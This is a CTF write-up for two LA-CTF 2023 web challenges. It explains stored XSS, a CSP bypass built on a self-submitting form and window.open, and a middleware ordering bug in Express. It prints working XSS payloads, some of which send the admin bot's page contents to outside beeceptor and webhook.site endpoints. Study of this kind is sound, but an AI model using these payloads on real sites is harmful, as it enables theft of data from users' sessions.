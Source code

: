 ```yaml
---
layout: writeup
title: LA-CTF 2023 - Web
date: 2023-2-14
---
```


## Metaverse
This challenge revolved around an incredibly ugly social media website called "Metaverse" where the flag was stored as the "display name" of the admin bot on the website.  In our posts, we could inject arbitrary HTML which would automatically send a friend request to our own account (after we had also sent a friend request to the admin bot).

Here was the payload I used to win:
```html
<script>fetch("/friend", {method: "POST", body:"username=milan", headers: {"Content-Type": "application/x-www-form-urlencoded"}})</script></p>
```

The resulting flag was: `lactf{please_metaget_me_out_of_here}`.

## California State Police

This was very similar to `metaverse`.  It was another website where we could create arbitrary HTML pages--however with a very restrictive CSP (content security policy): `"default-src 'none'; script-src 'unsafe-inline'"`.  This CSP prevents us from sending any typical `fetch` requests or using the `src` attribute of HTML tags to load external resources. 

However, since it allows us to include inline javascript through `<script>` tags, we could use either `document.location` or `window.open` to redirect the user and essentially let us perform any arbitrary `GET` requests.  

Unfortunately, to retrieve the flag requires getting the admin bot to send a `POST` request to the backend:

```javascript
app.get("/flag", (req, res) => {
    res.status(400).send("you have to POST the flag this time >:)");
});

app.post("/flag", (req, res) => {
    if (req.cookies.adminpw === adminpw) {
        res.send(flag);
    } else {
        res.status(400).send("no hacking allowed");
    }
});
```

I pretty much had no idea on how to perform this type of request, but one of my teammates (shout out to @BobbySinclusto) realized we could use a `<form method="POST">` tag to send a POST request since we can have our javascript invoke the `.submit` attribute on it.  Triggering a POST request via a form submission will redirect our current web-page to the resulting endpoint (which will be the text of the flag)--which isn't immediately helpful (we can't execute javascript after the form submission redirects our page).

So, the trick I came up with was to create a post that would instantly trigger a POST request to the flag route, and then create another post which would open that post with `window.open` and then, since the `window` API lets us access the DOM of the opened page, read the flag text and then send it to our own endpoint by re-assigning `document.location`.

### Post 1: Instantly sends POST request to `/flag`
```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<h1>pwned by OSUSEC</h1>
<form id="evil" action="/flag" method="post">
</form>
<script>
setTimeout( () => {
document.getElementById("evil").submit()
}, 2000)
</script>
</body>
</html>
```
### Post 2: Window.open & document.location 2 win
```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<h1>pwned by OSUSEC</h1>
<script>
a = window.open("https://california-state-police.lac.tf/report/7cb90fea-4839-4079-b750-c1745ba5ff1f")
setTimeout(() => {
  document.location = "https://mmemmeme.free.beeceptor.com/q="+a.document.getElementsByTagName('body')[0].textContent
}, 200)
</script>
</body>
</html>
```

And BOOM, looking in beeceptor I got a flag: `lactf{m4yb3_g1v1ng_fr33_xss_1s_jus7_4_b4d_1d3a}`.

One technical note for this window.open trick to work is that I needed to set a short timeout for the window to actually load, since if I tried to read the opened'd windows contents immediately it would just return the HTML of my post.  This timeout still had to finish quickly though since the Admin bot would leave the webpage after like 500ms.

Looking at the [Author's solution](https://raw.githubusercontent.com/uclaacm/lactf-archive/main/2023/web/california-state-police/solve.txt):
```html
<script>w=window.open("/flag");w.onload=()=>w.document.write(`<img src=x onerror="fetch('/flag',{method:'POST'}).then(x=>x.text()).then(x=>fetch('https://webhook.site/026ae782-0cfc-4233-b1e3-72e259f883e7?a='+encodeURIComponent(x)))">`)</script>
```

They just used the `window.open` trick to first fail on the GET route version of flag (which won't load the flag text--see server-side code above) and then actually *write HTML* to the opened window with an XSS payload that will invoke fetch to send a POST request to the `/flag` route, and then with promises forward that flag to their own endpoint.  Honestly, this solution shocked me since it involved a POST request being made with `fetch`, which shouldn't get allowed by the CSP.  

Well, it turns out the middleware setting the CSP gets called AFTER they defined the flag routes!

```javascript
// ^ /flag routes up here

app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'none'; script-src 'unsafe-inline'"
    );
    next();
});

// BELOW HERE ARE THE ROUTES SERVING HTML!
```

Reading this [stack overflow post](https://stackoverflow.com/questions/24258782/node-express-4-middleware-after-routes) seems to confirm my suspicions about this behavior from express.

Now, the order of the declaration of the middle-ware doesn't necessarily matter. For instance, if they had the flag routes call `next()` after `res.send()` then they would have a CSP get set in one of the response headers.  I totally missed this detail when analyzing given the express server source code but will keep this in mind for future challenges.

